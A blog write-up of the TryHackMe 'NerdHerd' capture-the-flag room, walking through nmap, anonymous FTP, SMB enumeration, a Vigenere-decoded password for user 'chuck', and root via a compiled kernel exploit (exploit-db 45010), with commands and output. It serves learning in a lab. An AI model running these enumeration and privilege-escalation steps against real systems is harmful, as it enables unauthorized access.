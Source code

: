 ```yaml
---
layout: default
title : bvr0n - NerdHerd | Writeup
---
```


# [Main](https://bvr0n.github.io/) &nbsp;&nbsp;   [Contact](https://bvr0n.github.io/contact.html) &nbsp;&nbsp; [About Me](./aboutme.md) <br>

_**Oct 05, 2020**_

[NerdHerd](https://tryhackme.com/room/nerdherd) Writeup

## Nmap Scan :
```
bvr0n@kali:~$ nmap -sC -sV 10.10.203.70
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    3 ftp      ftp          4096 Sep 11 03:45 pub
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.14.157
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 0c:84:1b:36:b2:a2:e1:11:dd:6a:ef:42:7b:0d:bb:43 (RSA)
|   256 e2:5d:9e:e7:28:ea:d3:dd:d4:cc:20:86:a3:df:23:b8 (ECDSA)
|_  256 ec:be:23:7b:a9:4c:21:85:bc:a8:db:0e:7c:39:de:49 (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: NERDHERD; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
1337/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: Host: NERDHERD; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -36m51s, deviation: 1h09m15s, median: 3m07s
|_nbstat: NetBIOS name: NERDHERD, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: nerdherd
|   NetBIOS computer name: NERDHERD\x00
|   Domain name: \x00
|   FQDN: nerdherd
|_  System time: 2020-11-06T20:27:25+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-11-06T18:27:26
|_  start_date: N/A
```

## FTP :

login to FTP we get a directory `/pub`, inside it a picture and a hidden directory  :
```
bvr0n@kali:~/CTF/THM/NerdHerd_v2$ ncftp 10.10.203.70
ncftp /pub > ls -la
drwxr-xr-x    2 ftp      ftp          4096 Sep 14 18:35 .jokesonyou
-rw-rw-r--    1 ftp      ftp         89894 Sep 11 03:45 youfoundme.png
ncftp /pub > cd .jokesonyou   
ncftp /pub/.jokesonyou > ls
hellon3rd.txt
```
running exiftoot on the image we get this :
```
Owner Name                      : fijbxslz
```

## Web Enum :

going to the web page and brute force directories we get a `/admin` that had something in the code source :

```
<!--
	these might help:
		Y2liYXJ0b3dza2k= : aGVoZWdvdTwdasddHlvdQ==
-->
```
When we decrypt it it gives :
```
Y2liYXJ0b3dza2k= : cibartowski
aGVoZWdvdTwdasddHlvdQ== : hehegou<.jÇ].[ÝD
```

## SMB :

```
bvr0n@kali:~/CTF/THM/NerdHerd_v2$ nbtscan 10.10.203.70

IP address       NetBIOS Name     Server    User             MAC address      
------------------------------------------------------------------------------
10.10.203.70     NERDHERD         <server>  NERDHERD         00:00:00:00:00:00
```

```
bvr0n@kali:~/CTF/THM/NerdHerd_v2$ smbclient --no-pass -L 10.10.203.70

Sharename       	        Type      Comment
---------       	        ----      -------
print$          	        Disk      Printer Drivers
nerdherd_classified 	    Disk      Samba on Ubuntu
IPC$            	        IPC       IPC Service (nerdherd server (Samba, Ubuntu))
```
I tried accessing the `nerdherd_classified` but we need a valid user to login with, so i tried this :
```
bvr0n@kali:~/CTF/THM/NerdHerd_v2$ enum4linux 10.10.203.70
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Fri Nov  6 14:06:12 2020

 ========================== 
|    Target Information    |
 ========================== 

Target ........... 10.10.203.70
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none
 
============================= 
|    Users on 10.10.203.70    |
 ============================= 

index: 0x1 RID: 0x3e8 acb: 0x00000010 Account: chuck    Name: ChuckBartowski    Desc: 

user:[chuck] rid:[0x3e8]
```

Looks like user `chuck` have access to the shared folder, i tried accessing it with the creds i got earlier, but nothing!! so i asked the author!! this one `fijbxslz` was `Vigenere
Cipher` ! And the key to decrypt it is the youtube title we got earlier :
```
Key : birdistheword
Password : easypass
```
```
bvr0n@kali:~/CTF/THM/NerdHerd_v2$ smbclient -U chuck //10.10.203.70/nerdherd_classified
Enter WORKGROUP\chuck's password: 
smb: \> dir
  secr3t.txt                          N      125  Thu Sep 10 21:29:53 2020
```
And we have access to the shared folder.

inside the file we get a directory and that leed us to ssh creds :))


## Internal Enum :

When i ran linpeas i noticed that this machine is running an outdated kernel :
```
chuck@nerdherd:~$ uname -a
Linux nerdherd 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
```

I searched for it and i found this [Exploit](https://www.exploit-db.com/exploits/45010)

I downloaded the exploit into my machine and transferred it to the victims machine :

```
chuck@nerdherd:~$ gcc 45010.c -o exploit
chuck@nerdherd:~$ chmod +x exploit 
chuck@nerdherd:~$ ./exploit 
root@nerdherd:~# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare),1000(chuck)
```

And we got ROOOOT :)))

For the root flag i did someting like this :
```
root@nerdherd:/root# find / -user root -type f -iname "*.txt"
```
Accourding to the room hint, the bonus flag is 100% located in `.bash_history`.


<br>
best regards

[bvr0n](https://linkedin.com/in/taha-el-ghadraoui-5921771a5)


<br>
[back to main()](../../index.md)

<br>
